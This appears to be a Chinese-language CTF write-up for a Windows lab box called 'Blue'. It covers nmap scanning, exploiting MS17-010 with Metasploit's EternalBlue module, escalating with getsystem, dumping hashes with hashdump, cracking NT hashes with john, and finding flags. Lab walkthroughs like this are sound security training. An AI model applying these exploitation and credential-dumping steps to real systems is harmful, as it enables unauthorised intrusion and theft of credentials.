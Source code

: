```yaml
---
icon: pen-to-square
date: 2025-04-22
tags: 
title: blue
category:
  - 项目
---
```

## 解答过程
### nmap扫描
```bash
namp -sn <ip>
```
发现主机

```bash
sudo nmap --min-rate 10000 -p- <ip> -oA nmapscan/ports
```
扫描端口
```bash
└─# cat ports.nmap
# Nmap 7.94SVN scan initiated Tue Apr 22 20:27:34 2025 as: nmap --min-rate 10000 -p- -oA 10.10.111.35/ports 10.10.111.35
Nmap scan report for 10.10.111.35
Host is up (7.9s latency).
Not shown: 58579 filtered tcp ports (no-response), 6952 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

# Nmap done at Tue Apr 22 20:28:17 2025 -- 1 IP address (1 host up) scanned in 43.28 seconds
```
发现可能存在高危漏洞`ms17-010`
search一下ms17-010发现
`exploit/windows/smb/ms17_010_eternalblue`模块
设置好options后进行下一步操作
获得反弹bash
multi/manage/shell_to_meterpreter
使用meterpreter进行提升权限
运行getsystem即获得最高权限
然后输入
```bash
hashdump
```
可以获得NT哈希，用john进行破解

```bash
john --format=NT hash.txt --wordlist=/path/to/wordlist.txt
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

```
用户名:用户ID:LM哈希:NTLM哈希:::
```
## 寻找flag
首先提示了再系统根目录会发现flag，我们转到系统根目录
```bash
cat C:\\flag1.txt
```
获得flag1.txt
flag2提示可以在windows存储密码的位置发现
windows存储密码的位置为
```bash
%SystemRoot%\\System32\\config\\SAM
```

第三个flag位置确实没看懂，直接梭哈吧
用`search`命令在C盘根目录进行搜索
```bash
meterpreter > search -d C:\\ -f flag3.txt -r
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
C:\Users\Jon\Documents\flag3.txt  37            2019-03-18 03:26:36 +0800
```

另外附赠linux查找文件的指令
```bash
find / -name "rockyou.txt" 2>/dev/null
```

发现flag